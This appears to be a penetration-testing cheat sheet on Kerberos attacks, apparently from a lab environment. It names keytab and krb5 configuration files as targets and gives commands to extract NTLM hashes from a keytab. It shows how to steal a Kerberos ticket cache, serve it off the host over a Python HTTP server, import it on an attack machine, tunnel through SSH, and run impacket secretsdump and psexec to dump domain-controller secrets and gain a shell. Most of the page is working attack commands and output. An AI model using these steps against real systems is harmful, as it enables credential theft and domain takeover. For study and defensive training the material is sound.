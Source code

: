 # Kerberos Attacks

## Interesting files.
```bash
/etc/krb5.conf
/etc/krb5.keytab
```

## Extracting keytab file

We can extract the krb5 keytab file using keytabextract to retrieve NTLM hash.

```bash
python3 keytabextract.py /etc/krb5.keytab
```

## Import and exploit kerberos ticket.

1. Copy the kerberos ticket and give it root right. Then download it.

```bash
target@sinhack03:/tmp$ sudo cp krb5cc_75401103_JMEyFf krb5cc_v0lk3n
target@sinhack03:/tmp$ sudo chown root:root krb5cc_v0lk3n 

target@sinhack03:/tmp$ sudo python -m SimpleHTTPServer 1337
Serving HTTP on 0.0.0.0 port 1337 ...
192.168.x.x - - [19/May/2021 14:27:51] "GET /krb5cc_v0lk3n HTTP/1.1" 200 -

```

2. Download the krb5.conf config file.

```bash
v0lk3n@sinhack03:/etc$ python -m SimpleHTTPServer 1337
Serving HTTP on 0.0.0.0 port 1337 ...
192.168.x.x - - [19/May/2021 14:22:03] "GET /krb5.conf HTTP/1.1" 200 -
```

3. Install kerberos tools on our kali

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ sudo apt install krb5-user                                        
```

4. Now that kerberos is installed, remove the /etc/krb5.conf of our kali (if exist) and replace it with the one downloaded from the target machine.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ sudo rm /etc/krb5.conf                                               
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ sudo mv krb5.conf /etc/krb5.conf

```

5. Import the downloaded kerberos ticket, then list tickets to confirm that we successfully imported it.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ export KRB5CCNAME=/home/v0lk3n/krb5cc_v0lk3n  

┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ klist                                                                                               1 ⨯
Ticket cache: FILE:/home/v0lk3n/krb5cc_v0lk3n
Default principal: zack@SINHACK.COM

Valid starting       Expires              Service principal
19. 05. 21 20:17:53  20. 05. 21 06:17:53  krbtgt/SINHACK.COM@SINHACK.COM
        renew until 26. 05. 21 20:17:53

```

6. Once the ticket imported run a SSH tunnel on the target machine with the -D parameter.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ ssh target@192.168.x.x -D 9050                                
target@192.168.x.x's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-111-generic x86_64)

```

7. Now that the tunnel has been created, and that the kerberos ticket is imported, we can run secretdump using proxychains, to dump the secret of DMZDC01.

```bash
──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py sinhack.com/zack@DC01.SINHACK.COM -k -no-pass
```

Alternatively we can get a shell using psexec.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~]
└─$ proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py SINHACK.COM/zack@dc01.sinhack.com -k -no-pass -debug
```
